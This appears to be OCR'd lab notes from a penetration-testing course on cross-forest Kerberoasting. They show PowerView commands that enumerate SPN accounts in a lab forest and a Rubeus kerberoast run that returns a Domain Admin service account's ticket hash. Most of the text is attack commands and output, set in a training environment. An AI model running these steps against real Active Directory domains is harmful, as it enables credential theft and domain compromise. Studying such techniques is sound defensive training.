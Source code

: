 # Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows
## Cross-Forest Kerberoasting
## Enumerating Accounts for Associated SPNs Using Get-DomainUser

```powershell
PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

samaccountname
--------------
krbtgt
mssqlsvc
```
## Enumerating the mssqlsvc Account

```Powershell
PS C:\htb> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof

samaccountname memberof
-------------- --------
mssqlsvc       CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
```
## Performing a Kerberoasting Attacking with Rubeus Using /domain Flag

```powershell
PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : mssqlsvc
[*] Target Domain          : FREIGHTLOGISTICS.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL/DC=FREIGHTLOGISTICS,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=mssqlsvc)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

[*] SamAccountName         : mssqlsvc
[*] DistinguishedName      : CN=mssqlsvc,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
[*] ServicePrincipalName   : MSSQLsvc/sql01.freightlogstics:1433
[*] PwdLastSet             : 3/24/2022 12:47:52 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$MSSQLsvc/sql01.freightlogstics:1433@FREIGHTLOGISTICS.LOCAL*$<SNIP>
```

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami
[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> ipconfig /all
